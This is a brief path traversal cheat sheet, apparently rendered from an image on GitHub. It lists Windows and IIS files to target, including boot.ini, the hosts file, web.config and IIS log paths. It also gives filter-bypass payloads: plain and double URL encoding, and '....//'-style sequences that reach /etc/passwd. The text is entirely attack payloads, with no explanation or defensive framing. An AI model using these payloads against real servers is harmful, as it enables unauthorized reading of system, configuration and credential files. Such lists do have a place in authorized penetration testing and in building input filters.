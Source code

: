 
# Windows: check important files
```bash
# path traversal test
C:\Windows\boot.ini
C:\Windows\System32\drivers\etc\hosts

# iis log paths 
C:\inetpub\logs\LogFiles\W3SVC1\

# iis web root structure
C:\inetpub\wwwroot\web.config
```

# bypass filters
```bash
# url encode
%2e%2e%2f

# double URL encode
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd



# Bypass "../" replaced by ""
....//....//....//etc/passwd
..././..././..././etc/passwd
....\/....\/....\/etc/passwd



```
